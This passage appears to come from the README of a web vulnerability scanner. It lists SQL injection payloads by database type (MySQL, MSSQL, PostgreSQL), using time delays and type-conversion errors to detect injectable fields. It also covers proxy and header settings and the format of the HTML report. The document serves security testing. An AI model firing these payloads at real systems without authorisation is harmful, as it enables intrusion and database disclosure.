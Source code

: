 #### Database-Specific Payloads

Organize payloads by database type for better results:

```bash
# MySQL payloads use SLEEP, BENCHMARK, ExtractValue
' AND SLEEP(5)--
' AND BENCHMARK(5000000,MD5('test'))--

# MSSQL payloads use WAITFOR, CONVERT
' AND WAITFOR DELAY '0:0:5'--
' AND 1=CONVERT(int,(SELECT @@version))--

# PostgreSQL payloads use pg_sleep, CAST
' AND pg_sleep(5)--
' AND 1=CAST((SELECT version()) AS int)--
```

### HTTP Client Configuration
Modify `utils/http_client.py` for advanced HTTP settings:

```python
# Custom headers
self.session.headers.update({
    'User-Agent': 'Custom-Scanner/1.0',
    'X-Custom-Header': 'value'
})

# Proxy support
self.session.proxies = {
    'http': 'http://proxy:8080',
    'https': 'https://proxy:8080'
}
```

##  Report Generation

The tool generates comprehensive HTML reports with:

- **Executive Summary**: Vulnerability counts and risk assessment
- **Detailed Findings**: Specific payloads and evidence for each vulnerability
- **Scan Metadata**: Timing information and target details
- **Responsive Design**: Mobile-friendly report layout

Sample report location: `scan_report.html`

##  Security Features

### Safe Testing Practices
- Configurable timeouts to prevent hanging requests
- Retry logic for unreliable network conditions
- SSL verification options for testing environments
- Payload limits to prevent excessive requests
